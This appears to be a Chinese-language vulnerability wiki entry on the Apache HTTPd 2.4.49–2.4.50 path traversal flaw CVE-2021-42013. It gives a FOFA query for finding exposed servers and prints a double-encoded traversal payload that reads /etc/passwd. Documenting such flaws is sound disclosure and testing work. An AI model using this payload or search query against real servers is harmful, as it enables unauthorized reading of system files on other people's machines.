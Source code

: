 ```yaml
---
title: Apache HTTPd 路径穿越漏洞 CVE-2021-42013 
---
```


# Apache HTTPd 路径穿越漏洞 CVE-2021-42013

## 漏洞描述

Apache HTTPD是一款HTTP服务器，它可以通过mod_php来运行PHP网页。其2.4.49~2.4.50-本中存在一个漏洞，可读取服务器中的任意文件 （CVE-2021-41773 的漏洞绕过）

## 漏洞影响

<a-checkbox checked>Apache HTTPd  2.4.49~2.4.50版本</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=c2VydmVyPSJBcGFjaGUvMi40LjQ5IiA%3D">server="Apache/2.4.49" </a-button>
</a-checkbox>

## 漏洞复现

通过响应包获取 Apache版本

![img](/assets/PeiQi-Wiki/img/1633685599184-d9c836db-1324-49ae-a642-702c8b5bce78-20220308094051147.png)

验证POC

```php
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
```

![img](/assets/PeiQi-Wiki/img/1633686079889-61449308-0e08-44e8-8f28-63889158f769-20220308094051256.png)